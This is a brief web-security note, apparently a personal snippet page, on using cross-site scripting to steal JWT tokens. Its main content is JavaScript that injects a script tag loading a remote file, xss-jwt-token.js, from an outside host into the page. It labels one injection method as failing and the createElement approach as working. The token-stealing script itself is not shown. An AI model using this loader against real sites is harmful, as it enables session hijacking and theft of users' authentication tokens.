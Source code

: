 # Web Security 

## XSS


https://cdn.xgqfrms.xyz/web-security/xss-jwt-token.js

```js
// XSS 窃取 JWT token

// 不好使 ❌
document.body.insertAdjacentHTML(`beforeend`, `<script src="https://cdn.xgqfrms.xyz/web-security/xss-jwt-token.js" async></script>`);

// 好使 ✅
const script = document.createElement(`script`);
script.id = `xss`;
script.src = `https://cdn.xgqfrms.xyz/web-security/xss-jwt-token.js`;
document.body.appendChild(script);


```

![](https://img2023.cnblogs.com/blog/928074/202212/928074-20221216012356130-1722550021.png)

